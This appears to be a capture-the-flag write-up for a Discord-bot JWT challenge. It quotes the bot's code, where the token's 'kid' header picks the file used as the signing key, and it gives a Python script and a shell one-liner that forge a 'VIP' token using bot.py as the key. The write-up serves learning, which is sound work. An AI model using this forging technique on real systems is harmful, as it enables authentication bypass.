


## title

Batbot

## Description

Author: xhalyl

## Solution

This challenge involves a discord bot that has generates and verifies JWT tokens giving a username.

Generate is straightforward, it takes a secret and username and creates a JWT token with the following payload, signing the token with the secret:

``` json
{
  "username": "test",
  "role": "user"
}
```

```py
@bot.command(name='generate')
async def generate_token(ctx, *, username=None):
    try:
        if isinstance(ctx.channel, discord.DMChannel) == False:
            await ctx.send("I can't see here 👀 , DM me")
        elif not username:
            await ctx.send("Please provide a username.")
        else:
            with open(SECRET_KEY_FILE_PATH, 'r') as file:
                secret_key = file.read().strip()
            headers = {
                'kid': SECRET_KEY_FILE_PATH
            }
            token = jwt.encode({'username': username,'role' : 'user'}, secret_key, algorithm='HS256',headers=headers)
            await ctx.send(f'The generated JWT token for {username} is: {token}')
    except:
        await ctx.send('Failed to generate token.')

```

The verify function verifies the jwt token and if its valid, verifies if the role is *VIP* and if it is then shown the flag. So our job is to overwrite the role to *VIP* in order to get the flag.

```py
@bot.command(name='verify')
async def authenticate(ctx, *, token=None):
    try:
        if isinstance(ctx.channel, discord.DMChannel) == False:
            await ctx.send("I can't see here 👀 , DM me")
        else:
            result = verify_jwt(token)
            print(ctx.author)
            print(result)
            if isinstance(result, dict):
                username = result.get('username')
                role = result.get('role')
                if username and role=='VIP':
                    await ctx.send(f'Welcome Sir! Here is our secret {flag}')
                elif username:
                    await ctx.send(f'Welcome {username}!')
                else:
                    await ctx.send('Authentication failed. Please try again.')
            else:
                await ctx.send('Authentication failed.')
    except:
        await ctx.send('Authentication failed.')
```

Our focus should be in the function verify_jwt:

```py
def verify_jwt(token):
    try:
        header = jwt.get_unverified_header(token)
        kid = header['kid']
        assert ("/" not in kid)
        with open(kid, 'r') as file:
            secret_key = file.read().strip()
        decoded_token = jwt.decode(token, secret_key, algorithms=['HS256'])
        return decoded_token
    except Exception as e:
        return str(e)
```
Since we can't path transverse because of the `assert ("/" not in kid)` we can just use bot.py as the common file to be used as the secret to sign the JWT token.

I have developed the following script to do it:

```py
import jwt
def create_jwt(username, file_path):
    with open(file_path, 'r') as file:
        secret_key = file.read().strip()
    headers = {
        'kid': file_path
    }
    token = jwt.encode({'username': username,'role' : 'VIP'}, secret_key, algorithm='HS256',headers=headers)
    return token

username = "test"
file_path = "bot.py"
token = create_jwt(username, file_path)
print(token)
```

We can use the following bash one line too: `cat bot.py | base64 -w0 | xsel -b`. Paste the base64 to the `https://jwt.io/` and change the role.



